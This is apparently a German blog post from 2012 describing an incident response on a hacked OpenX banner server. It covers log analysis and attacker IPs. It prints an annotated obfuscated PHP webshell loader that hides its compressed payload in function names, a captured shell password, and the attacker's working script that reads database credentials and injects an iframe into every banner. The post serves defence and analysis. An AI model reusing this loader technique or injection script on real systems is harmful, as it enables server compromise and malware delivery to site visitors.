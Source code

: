 Aktionen eines Scriptkiddys
############################
:date: 2012-12-13 12:45
:tags: hack, webshell, scriptkiddy

Einleitung
----------
Um mal eine kurze Timeline aufzubauen. Am 11. Dec wurde entdeckt, dass ein Bannersystem
Schadcode ausliefert. Der Schadcode wurde am selben Tag auf ein paar Dateien eingegrenzt
den besagten Stellen geloescht und bekannte Luecken von OpenX gefixt sowie auf den 
aktuellen Stand gebracht.

Am naechsten Tag trat das Problem erneut auf. Es gab nun 2 Optionen: Sie haben noch eine
Backdoor auf dem Server, oder sie haben einen 0day in OpenX.

Analyse
-------

Ihhh, Logfiles
~~~~~~~~~~~~~~
Nachdem wir das ganze auf ein kleines Zeitfenster von 2h eingrenzen konnten (Bedenkt: es handelt
sich um ein Bannersystem welches an mehrere Server ausliefert), konnten wir uns die Logfiles 
genauer ansehen.

Zudem lag die Vermutung nahe, dass es ein Post Request sein musste und nicht aus unserem IP Range
kommt:

 .. code-block :: bash

    grep "10/Dec" access.log | grep "10:30:" | grep "POST" | grep -v "^iprange"

Das lieferte auch ein paar Treffer. Der Entscheidende war wohl dieser Zugriff.

 .. code-block :: plain
  
    74.82.195.138 - - [10/Dec/2012:13:10:48 +0100] "POST /www/images/8bbf14b5f28108caa48e940810f882f1.php HTTP/1.1" 200 520 "-" "MSIE 7.0; Windows 5.1;"

Sieht mir sehr nach einem komprimitiertem Datei Uploader aus. Aber lassen wir uns nicht nicht aus der Ruhe bringen. Ein Grepen nach der Datei
im Log foerderte noch zwei IPs zu Tage

 .. code-block :: plain

    74.82.195.138
    82.193.96.5
    88.198.84.237

Wenn man sich ein wenig in den Logfiles noch umschaut entdeckt man, dass die eine IP recht rege war in einem Plugin:

 .. code-block :: plain

   82.193.96.5 - - [10/Dec/2012:10:23:24 +0100] "POST [...]admin/plugins/openXSystemLog/logs.php HTTP/1.1" 200 [...]

Eine schnelle Google Suche liefert, dass das Plugin so nicht existiert. Ein wenig mehr herumstochern bringt auch zu Tage,
dass das Plugin kurz vorher hinzugefuegt wurde und erst danach war die seltsame Datei im images Ordner.
Daraufhin wurde das Plugin wieder geloescht. Es war weder in unserer Backup noch auf dem Server selbst zu finden.

Noch haben wir uns garnicht angeschaut was diese Datei alles tut.

PHP, noch mehr ihh
~~~~~~~~~~~~~~~~~~

 .. code-block :: php

   <?php
   function yf13015ce5bd6b5b1b371330(){}
   // ca. 2000 Zeilen spaeter
   function yf13015c8b7a8eef77f0f8db(){}
   function yf13015cc1424590ad55f2ea(){}
   function yf13015cfcbf(){}
   $uf16cd=w13dda(array(117,113,108,112,115,120,121));
   $g121b3fa=w13dda(array(125,110,110,125,101,67,122,117,112,104,121,110));
   $mf7737=w13dda(array(111,105,126,111,104,110));
   $ubeb9c=w13dda(array(121,106,125,112));
   $a9e1f8=w13dda(array(123,102,117,114,122,112,125,104,121));
   $ic8a9b=w13dda(array(108,125,127,119));
   $a4febd=w13dda(array(123,121,104,67,120,121,122,117,114,121,120,67,122,105,114,127,104,117,115,114,111));$c70bda=$a4febd();
   $qd89=null;$c70bda=$g121b3fa($c70bda[w13dda(array(105,111,121,110))], w13dda(array(123,46,127,36,41,121)));
   $wef9 = array(); foreach($c70bda as $f){$wef9[] = $mf7737($f,8);};
   eval($a9e1f8($ic8a9b(w13dda(array(84,54)),$uf16cd($qd89,$wef9))));
   function w13dda($o2ae){global $qd89; $ret = $qd89;for($i=0; $i < count($o2ae); $i++)$ret.=chr($o2ae[$i]) ^ chr(28);return $ret;}
   function g2c85e($o2ae){global $mf7737; return ($mf7737($o2ae,0,8)== w13dda(array(101,122,45,47,44,45,41,127)));}?>

Wer will raten?

Das eval sagt eigentlich schon alles. Was raus kommt ist eigentlich auch ziemlich klar. Interessant ist, wie er dort hinkommt. Ich droesel
das mal ein wenig auf.

Am Anfang definiert er sich "sinnlose" Funktionen. Das die garnicht so sinnlos sind, werde ich euch gleich zeigen.
Ich hab mal das ganze ein wenig kommentiert.

 .. code-block :: php

        <?php
        function yf13015ce5bd6b5b1b371330(){}
        // ca. 2000 Zeilen spaeter
        function yf13015c8b7a8eef77f0f8db(){}
        function yf13015cc1424590ad55f2ea(){}

        // Definieren von Funktionsnamen:
        // implode, array_filter, substr, eval, gzinflate, pack, get_defined_functions
        $uf16cd=w13dda(array(117,113,108,112,115,120,121));
        $g121b3fa=w13dda(array(125,110,110,125,101,67,122,117,112,104,121,110));
        $mf7737=w13dda(array(111,105,126,111,104,110));
        $ubeb9c=w13dda(array(121,106,125,112));
        $a9e1f8=w13dda(array(123,102,117,114,122,112,125,104,121));
        $ic8a9b=w13dda(array(108,125,127,119));
        $a4febd=w13dda(array(123,121,104,67,120,121,122,117,114,121,120,67,122,105,114,127,104,117,115,114,111));

        //ausfuehren von get_defined_functions -> liefert Array ueber ALLE Funktionsnamen
        # $c70bda = get_defined_functions();
        $c70bda=$a4febd();
        $qd89=null;

        // wendet die funktion g2c85e auf die user liste an
        // Es bleiben in c70bda nur die Funktionen die mit yf13015c anfangen.
        # $c70bda = array_filter($c70bda['user'],'g2c85e')
        $c70bda=$g121b3fa(
          $c70bda[w13dda(array(105,111,121,110))], w13dda(array(123,46,127,36,41,121))
        );
        $wef9 = array(); 

        // greift sich die Funktionsnamen und schneidet sie ersten 8 Zeichen ab
        foreach($c70bda as $f){
          # $wef9[] = substr($f,8);
          $wef9[] = $mf7737($f,8);
        }
        // Fuegt die einzelnen TeilFunktionsnamen zusammen, packt das ganze 
        // in eine Binaerzeichenkette, was dann wiederum gz gepackt ist.
        // Das ganze was da rauskommt (FileMan) wird ausgefuehrt
        # eval(gzinflate(pack('H*',implode(null,$wef9)
        eval($a9e1f8($ic8a9b(w13dda(array(84,54)),$uf16cd($qd89,$wef9))));

        // Verschluesselung: jede Ziffer wird als ASCII Wert genommen und mit dem ASCII von 28 xor'ed
        function w13dda($o2ae){
          global $qd89; 
          $ret = $qd89;
          for($i=0; $i < count($o2ae); $i++) 
            $ret.=chr($o2ae[$i]) ^ chr(28);
          return $ret;
        }

        // Filtert alle Funktionen aus dem User Namespace die 
        // die Zeichenkette enthalten
        function g2c85e($o2ae){
          global $mf7737; 
          # return (substr($02ae,0,8) == 'yf13015c')
          return ($mf7737($o2ae,0,8)== w13dda(array(101,122,45,47,44,45,41,127)));
        }

Damit ist schonmal geklaert wo die Shell untergebracht wurde: Die ist naemlich in den Funktionsnamen
als Binaer abgespeichert. Achja und komprimiert ist sie auch noch.

Gegenaktionen und Reaktion des ScriptKiddy
------------------------------------------

Nachdem wir uns sicher waren, was das genau macht haben wir uns auf die Lauer gelegt und die Webshell gegen eine Variante
ausgetauscht die nichts Boeses tut und alle Aktionen mitloggt. (Man koennte wirklich mal ein Repo mit modifizierten Shells machen)

Es kamen interessanterweise nach ein paar Minuten nach Bereinigung auch tatsaechlich Requests im Honeypot rein. Er nutzte die Shell 
wohl von einem Steuerungsscript aus, nachdem die Requests viel zu schnell kamen. 

Als allererstes hatten wir sein Passwort, dass er fuer FileMan verwendet.

 .. code-block :: plain

        yb[ezct,tdt,itkk

Das muss er eben uebermitteln, um sich erfolgreich an der Shell zu Authentifizieren. Im Source steht es naemlich mit nem doppel md5 drin.
Das hier wollte er auf dem Server ausfuehren und so Eintraege in die Banner machen. (Als ob wir geweint haben)

 .. code-block :: php

        <?php
        @ini_set('display_errors', 0);

        $init = array();
        $results = array();
        $counter = 0;

        // Geht Ordner runter bis root und liest config files
        while(getcwd() != '/')
        {
            $path = getcwd();
            $init = array_merge($init, get_openx_conf_files($path));
            chdir('../');    
            
            if($counter++ >= 30) {
            break;
            }
        }

        if(empty($init)) {
          echo "Error: OpenX INIT file not found!";
        }

        $cacheDir = dirname($init[0]) . '/var/cache/';

        // der Schade der eingefuegt wird in die Banner.
        $iframe = '' // base64 string truncated for space reason
        $iframe = base64_decode($iframe);

        include_once($init[0]);
        print_r(makeThemCryBabe($iframe, $conf['database']['host'], $conf['database']['username'], $conf['database']['password'], $conf['database']['name'], $conf['table']['prefix'], $cacheDir));
        // Wie kann man eine Funktion nur so nennen :(
        function makeThemCryBabe($iframe, $host, $user, $pass, $name, $prefix, $cacheDir)
        {
          $unlinked = 0;
          $link = mysql_connect($host, $user, $pass) or die(mysql_error());
          if ($link) {
            mysql_select_db($name) or die(mysql_error());
          }
          $_1 = "UPDATE `{$prefix}zones` SET `prepend` = '".mysql_real_escape_string($iframe)."', `forceappend` = 't'";
          $_2 = "UPDATE `{$prefix}zones` SET `append` = '".mysql_real_escape_string($iframe)."', `forceappend` = 't'";
          $_3 = "UPDATE `{$prefix}banners` SET `prepend` = '".mysql_real_escape_string($iframe)."'";
          $_4 = "ALTER TABLE `{$prefix}zones` CHANGE `prepend` `prepend` TEXT, CHANGE `append` `append` TEXT";
          
          mysql_query($_1) or die(mysql_error());
          
          $affected = mysql_affected_rows();
          $unlinked = 0;
      
          // Wenn es was veraendert hat loescht es den cache komplett, damit der Effekt gleich ist
          if ($affected > 0)
          {
            $cacheFiles = scandir($cacheDir);
            foreach($cacheFiles as $cache){
               $cachefile = $cacheDir . $cache;
               if(is_file($cachefile)){
                  if(unlink($cachefile)) $unlinked++;
               }
            }
          }
          return serialize(array('Affected:' => $affected, 'Cache Deleted:' => $unlinked));
        }


        function get_openx_conf_files($path)
        {
          $ret = array();
          $files = glob($path . "/init.php");

          if(is_array($files))
            $ret = $files;

          return $ret;
        }


Frage mich, warum er nicht auch gleich noch die Passwoerter ausgibt. Andererseits hat er eine Webshell...aw screw it :D

Andererseits wird er ja wohl merken, dass es so nichts bringt....Dachten wir uns zumindest. Um 16:30 kam ein Zugriff rein
der schon ein wenig anders aussah:

 .. code-block :: php

        <?php
        print_r(cleanItBabe($conf['database']['host'], $conf['database']['username'], $conf['database']['password'], $conf['database']['name'], $conf['table']['prefix']));

        function cleanItBabe($host, $user, $pass, $name, $prefix) {
            $unlinked = 0;
            $link = mysql_connect($host, $user, $pass) or die(mysql_error());

            if ($link) {
                mysql_select_db($name) or die(mysql_error());
            }
            $zones = \"UPDATE `{$prefix}zones` SET `prepend` = '', `append` = ''\";
            mysql_query($zones) or die(mysql_error());
            $zRes = mysql_affected_rows();
            $banners = \"UPDATE `{$prefix}banners` SET `prepend` = ''\";
            mysql_query($banners) or die(mysql_error());    
            $bRes = mysql_affected_rows();
            
            return serialize(array('Zones:' => $zRes, 'Banner:' => $bRes));
        }

Ich hab mal nur den Interessanten Part herausgesucht: Er versucht aufzuraeumen.

Jetzt aber endlich Schluss?
---------------------------

haha...dachten wir auch ja. Heute kam aber wieder ein Versuch etwas in der Datenbank einzutragen. Gleicher Skriptcode, so wie es auf den ersten Blick ausschaut.
Zu Vermerken waere noch, dass die IP Adressen alte Software Versionen enthaelt. Auf dem einen laeuft auch ein offener Proxy und stehen in Ukraine bzw. Russland.
Anzunehmen ist auch, dass er ein Windows System verwendet, wenn in der Shell sowas ankommt:

 .. code-block :: plain

        "@error_reporting(0);\r\n@ini_set('display_errors', 0);\r\n\r\n$init = array();\r\n

Zudem sieht mir das sehr Zusammengeklickt aus.

Hoffentlich wars das jetzt...wird langweilig seine Versuche.

so long
